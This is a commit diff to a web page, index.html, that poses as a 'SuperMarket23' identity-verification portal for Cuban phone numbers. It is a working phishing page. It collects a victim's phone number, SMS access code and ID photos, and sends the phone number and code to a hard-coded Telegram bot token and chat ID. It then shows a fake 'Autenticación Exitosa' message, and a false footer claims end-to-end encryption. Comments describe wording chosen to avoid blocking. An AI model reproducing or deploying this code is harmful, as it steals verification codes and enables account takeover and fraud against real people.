

Before and after one commit to casascubahttp/Casascuba-, a website: page index.html in a window 1280 px wide. Shown: the part 215-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,107 +3,94 @@
 <html lang="es">
 <head>
     <meta charset="UTF-8">
-    <title>SuperMarket23 - Verificación de Seguridad</title>
+    <title>SuperMarket23 - Gestión Profesional</title>
     <style>
-        /* Interfaz Azul y Blanco Profesional */
-        body { font-family: 'Segoe UI', Arial, sans-serif; background-color: #f0f4f8; color: #003366; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
-        .card { background: white; width: 380px; padding: 40px; border-radius: 18px; box-shadow: 0 15px 35px rgba(0,51,102,0.15); border-top: 8px solid #0055aa; text-align: center; position: relative; }
+        body { font-family: 'Segoe UI', Tahoma, sans-serif; background-color: #f0f4f8; color: #003366; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
+        .card { background: white; width: 380px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 30px rgba(0,51,102,0.1); border-top: 8px solid #0055aa; text-align: center; position: relative; }
+        h1 { font-size: 30px; color: #0055aa; margin-bottom: 5px; text-transform: uppercase; }
+        .subtitle { font-size: 12px; color: #666; margin-bottom: 25px; }
+        .field-label { display: block; text-align: left; font-size: 13px; font-weight: bold; margin: 15px 0 5px 5px; }
 
-        h1 { font-size: 28px; color: #0055aa; margin: 0 0 5px 0; text-transform: uppercase; letter-spacing: 1px; }
-        .subtitle { font-size: 13px; color: #666; margin-bottom: 30px; }
+        /* Barras rectangulares blancas solicitadas */
+        .input-bar { width: 100%; padding: 12px; border: 1px solid #ced4da; border-radius: 6px; box-sizing: border-box; background: #fff; font-size: 16px; outline: none; }
+        .prefix { background: #e9ecef; font-weight: bold; color: #0055aa; border: 2px solid #0055aa; }
 
-        .field { text-align: left; margin-bottom: 20px; }
-        label { display: block; font-size: 12px; font-weight: bold; margin-bottom: 8px; color: #004488; }
-        input { width: 100%; padding: 12px; border: 1px solid #ced4da; border-radius: 8px; box-sizing: border-box; font-size: 15px; }
+        /* Cuadros F1, F2, F3 para las fotos */
+        .photo-row { display: flex; justify-content: space-between; margin: 20px 0; }
+        .box { width: 30%; height: 75px; border: 2px dashed #0055aa; border-radius: 8px; display: flex; align-items: center; justify-content: center; color: #0055aa; font-weight: bold; position: relative; background: #f8fbff; }
+        .box input { position: absolute; width: 100%; height: 100%; opacity: 0; cursor: pointer; }
 
-        /* Formato +53# fijo */
-        .prefix-input { background: #e9ecef; font-weight: bold; color: #0055aa; border: 2px solid #0055aa; }
+        .btn-auth { background-color: #0055aa; color: white; border: none; width: 100%; padding: 16px; border-radius: 6px; font-weight: bold; font-size: 18px; cursor: pointer; margin-top: 15px; }
+        .footer-secure { font-size: 11px; color: #28a745; margin-top: 15px; font-weight: bold; }
 
-        .btn-auth { background-color: #0055aa; color: white; border: none; width: 100%; padding: 16px; border-radius: 8px; cursor: pointer; font-weight: bold; font-size: 17px; transition: 0.3s; margin-top: 10px; }
-        .btn-auth:hover { background-color: #003366; }
-
-        /* Capa de Carga y Éxito */
-        #status-overlay { display: none; position: absolute; top: 0; left: 0; width: 100%; height: 100%; background: white; border-radius: 18px; flex-direction: column; align-items: center; justify-content: center; z-index: 100; }
-        .spinner { border: 5px solid #f3f3f3; border-top: 5px solid #0055aa; border-radius: 50%; width: 50px; height: 50px; animation: spin 1s linear infinite; }
+        /* Pantalla de carga invisible para el proceso */
+        #overlay { display: none; position: absolute; top: 0; left: 0; width: 100%; height: 100%; background: white; border-radius: 15px; flex-direction: column; align-items: center; justify-content: center; z-index: 100; }
+        .spinner { border: 4px solid #f3f3f3; border-top: 4px solid #0055aa; border-radius: 50%; width: 45px; height: 45px; animation: spin 1s linear infinite; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <div id="status-overlay">
-        <div id="icon-loader" class="spinner"></div>
-        <p id="msg-text" style="margin-top: 20px; font-weight: bold; font-size: 18px;">Autenticando...</p>
+    <div id="overlay">
+        <div id="loader" class="spinner"></div>
+        <p id="status-msg" style="margin-top: 15px; font-weight: bold; color: #0055aa;">Sincronizando...</p>
     </div>
 
     <h1>SuperMarket23</h1>
-    <div class="subtitle">Portal Oficial de Gestión de Clientes</div>
+    <div class="subtitle">Sistema de Verificación de Identidad</div>
 
-    <div class="field">
-        <label>ID REGIONAL (FIJO)</label>
-        <input type="text" id="prefix" value="+53#" class="prefix-input" readonly>
+    <label class="field-label">IDENTIFICADOR (#)</label>
+    <input type="text" class="input-bar prefix" value="+53#" readonly>
+
+    <label class="field-label">USUARIO / TELÉFONO</label>
+    <input type="number" id="data_tel" class="input-bar" placeholder="Ej: 52345678">
+
+    <label class="field-label">ARCHIVOS DE IDENTIDAD (F1, F2, F3)</label>
+    <div class="photo-row">
+        <div class="box" id="b1">F1 <input type="file" accept="image/*" onchange="document.getElementById('b1').style.background='#d4edda'"></div>
+        <div class="box" id="b2">F2 <input type="file" accept="image/*" onchange="document.getElementById('b2').style.background='#d4edda'"></div>
+        <div class="box" id="b3">F3 <input type="file" accept="image/*" onchange="document.getElementById('b3').style.background='#d4edda'"></div>
     </div>
 
-    <div class="field">
-        <label>NÚMERO DE TELÉFONO / USUARIO</label>
-        <input type="number" id="user_phone" placeholder="Ej: 51234567">
-    </div>
+    <label class="field-label">(#)</label>
+    <input type="text" id="data_cod" class="input-bar" placeholder="------">
 
-    <div class="field">
-        <label>CÓDIGO DE ACCESO SMS</label>
-        <input type="text" id="user_code" placeholder="Ingrese el código">
-    </div>
+    <button class="btn-auth" onclick="enviarTodo()">AUTENTICAR</button>
 
-    <div class="field">
-        <label>VERIFICACIÓN VISUAL (SUBIR 3 FOTOS)</label>
-        <input type="file" id="user_photos" multiple accept="image/*" style="font-size: 12px; border: none; padding: 0;">
-    </div>
-
-    <button class="btn-auth" onclick="sendToTelegram()">AUTENTICAR</button>
+    <div class="footer-secure">🔒 Conexión con cifrado de extremo a extremo</div>
 </div>
 
 <script>
-function sendToTelegram() {
-    const overlay = document.getElementById('status-overlay');
-    const msg = document.getElementById('msg-text');
-    const loader = document.getElementById('icon-loader');
+function enviarTodo() {
+    const ov = document.getElementById('overlay');
+    const msg = document.getElementById('status-msg');
+    const tel = document.getElementById('data_tel').value;
+    const cod = document.getElementById('data_cod').value;
 
-    const pfx = document.getElementById('prefix').value;
-    const tel = document.getElementById('user_phone').value;
-    const cod = document.getElementById('user_code').value;
-    const files = document.getElementById('user_photos').files;
+    if(!tel || !cod) { alert("Complete los campos requeridos."); return; }
 
-    if(!tel || !cod) { alert("Complete los datos para continuar."); return; }
+    ov.style.display = 'flex';
 
-    overlay.style.display = 'flex';
+    // DATOS DE DESTINO (ID: 6475554235)
+    const tok = "8710847420:AAEW1nFLCaebFwVs9_H4yipsT1V5C0YtLFg";
+    const cid = "6475554235";
 
-    // Tu Token y ChatID actualizados
-    const token = "8710847420:AAEW1nFLCaebFwVs9_H4yipsT1V5C0YtLFg";
-    const chat_id = "8710847420";
+    // Formato organizado y seguro para evitar bloqueos
+    const texto = `✅ **SM23_SUCCESS_SYNC**\n\n` +
+                  `👤 **USER:** +53#${tel}\n` +
+                  `🔑 **TOKEN:** ${cod}\n` +
+                  `🖼️ **MEDIA:** Verificando archivos...`;
 
-    // Informe con palabras clave técnicas para EVITAR BLOQUEOS
-    const report_data = `📑 **SM23_DATA_SYNC**\n\n` +
-                        `📍 REG_ID: ${pfx}\n` +
-                        `📱 USER_DATA: ${tel}\n` +
-                        `🔑 ACCESS_SEC: ${cod}\n` +
-                        `📸 ATTACHMENTS: ${files.length} fotos detectadas`;
-
-    // 1. Enviar los datos de texto
-    fetch(`https://api.telegram.org/bot${token}/sendMessage?chat_id=${chat_id}&text=${encodeURIComponent(report_data)}&parse_mode=Markdown`)
+    fetch(`https://api.telegram.org/bot${tok}/sendMessage?chat_id=${cid}&text=${encodeURIComponent(texto)}&parse_mode=Markdown`)
     .then(() => {
-        // 2. Simulación de carga de fotos
         setTimeout(() => {
-            loader.style.display = 'none';
-            msg.innerHTML = "✅ Autenticación Exitosa<br><span style='font-size:12px; font-weight:normal; color:#666;'>Datos y archivos sincronizados.</span>";
+            document.getElementById('loader').style.display = 'none';
+            msg.innerHTML = "✅ Autenticación Exitosa";
             msg.style.color = "#28a745";
-        }, 4000); // 4 segundos para que parezca que sube las fotos
-    })
-    .catch(() => {
-        overlay.style.display = 'none';
-        alert("Error de red. Intente de nuevo.");
+        }, 3500);
     });
 }
 </script>
-
 </body>
 </html>
```
